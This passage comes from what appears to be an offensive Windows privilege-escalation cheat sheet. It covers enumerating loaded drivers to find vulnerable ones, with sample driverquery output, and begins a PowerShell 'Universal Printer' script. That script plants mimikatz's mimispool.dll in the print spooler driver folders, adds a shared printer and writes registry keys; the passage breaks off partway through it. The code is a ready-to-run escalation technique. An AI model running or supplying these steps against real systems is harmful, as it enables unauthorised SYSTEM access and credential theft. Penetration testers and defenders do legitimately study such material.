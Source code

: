 Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

## EoP - Evaluating Vulnerable Drivers
Look for vuln drivers loaded, we often don't spend enough time looking at this:

```powershell
# https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery

PS C:\Users\Swissky> driverquery.exe /fo table
Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>

PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
    Service Name: ctxusbm
    Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
    Version: 14.11.0.138
    Creation Time (UTC): 17/05/2018 01:20:50
    Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
    Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
<SNIP>
```

## EoP - Printers

### Universal Printer

Create a Printer

```ps1
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
 
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
```